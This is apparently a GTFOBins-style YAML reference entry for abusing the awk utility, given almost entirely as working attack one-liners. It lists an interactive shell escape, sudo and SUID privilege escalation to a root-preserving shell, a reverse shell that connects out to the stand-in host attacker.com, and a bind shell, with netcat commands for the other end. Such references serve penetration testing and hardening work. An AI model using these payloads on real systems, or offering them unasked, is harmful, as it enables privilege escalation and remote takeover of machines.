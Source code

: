 ```yaml
---
functions:
  exec-interactive:
    - code: awk 'BEGIN {system("/bin/sh")}'
  sudo-enabled:
    - code: sudo awk 'BEGIN {system("/bin/sh -p")}'
  suid-limited:
    - code: ./awk 'BEGIN {system("/bin/sh -p")}'
  reverse-shell-non-interactive:
    - description: Run `nc -l -p 12345` to receive the shell on the other end.
      code: |
        RHOST=attacker.com
        RPORT=12345
        awk -v RHOST=$RHOST -v RPORT=$RPORT 'BEGIN {
            s = "/inet/tcp/0/" RHOST "/" RPORT;
            while (1) {printf "> " |& s; if ((s |& getline c) <= 0) break;
            while (c && (c |& getline) > 0) print $0 |& s; close(c)}}'
  bind-shell-non-interactive:
    - description: Run `nc target.com 12345` to connect to the shell on the other end.
      code: |
        LPORT=12345
        awk -v LPORT=$LPORT 'BEGIN {
            s = "/inet/tcp/" LPORT "/0/0";
            while (1) {printf "> " |& s; if ((s |& getline c) <= 0) break;
            while (c && (c |& getline) > 0) print $0 |& s; close(c)}}'
---
```

